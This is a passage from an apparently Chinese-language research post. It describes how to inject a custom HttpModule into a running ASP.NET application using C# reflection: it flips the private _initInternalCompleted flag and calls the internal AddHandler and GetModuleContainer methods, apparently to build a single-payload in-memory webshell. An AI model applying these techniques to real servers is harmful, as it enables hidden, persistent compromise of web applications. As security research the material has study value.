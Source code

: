 
但是需要在头部添加标签

    
    
    [assembly: PreApplicationStartMethod(typeof(WebApplication2.PreApplicationStartCode), "PreStart")]   
    

很遗憾这仍然不是通过一个payload就能实现的操作

在如何执行init方法这里卡了几天，想到我们能不能 **直接执行init，只要把我们的方法挂到事件上就可以**
,在这个过程中我又发现了对httpapplication是否已经初始化的校验

![]()

  

通过反射进行修改绕过

    
    
    FieldInfo initField = httpApplicationType.GetField("_initInternalCompleted", BindingFlags.Instance | BindingFlags.NonPublic);   
            initField.SetValue(httpApplicationInstance,false);  
            //初始化 module  
            customModule.Init(this.Context.ApplicationInstance);  
            initField.SetValue(httpApplicationInstance,true);  
    

然而当我们去请求的时候，发现我们挂载到事件上的方法并没有执行。

#### 事件挂载

跟踪挂载过程发现调用私有方法HttpApplication.AddSyncEventHookup

![]()

尝试反射修改掉IsContainerInitalizationAllowed，然后发现无法绕过的地方，在读取moduleContainer过程中我们的key为Global.asax，且基于ASP.NET安全机制无法通过反射修改。

于是决定通过反射的方式，直接完成方法功能

首先反射调用Addhandler

    
    
     PropertyInfo eventsProperty = httpApplicationType  
              .GetProperty("Events", BindingFlags.Instance | BindingFlags.NonPublic);  
            object eventsInstance = eventsProperty.GetValue(httpApplicationInstance);  
            MethodInfo addHandlerMethod = eventsInstance.GetType()  
              .GetMethod("AddHandler");  
    

通过HttpApplication的方法，获取一个初始化过程中已经加载了的module container,这里选的是AspNetFilterModule

    
    
            MethodInfo getModuleContainerMethod = httpApplicationType.GetMethod("GetModuleContainer", BindingFlags.Instance | BindingFlags.NonPublic);  
            object[] parametersCurrentModuleCollectionKey = new object[] { "AspNetFilterModule" }; // 根据方法参数进行适当调整  
            object moduleContainer = getModuleContainerMethod.Invoke(httpApplicationInstance, parametersCurrentModuleCollectionKey);  
    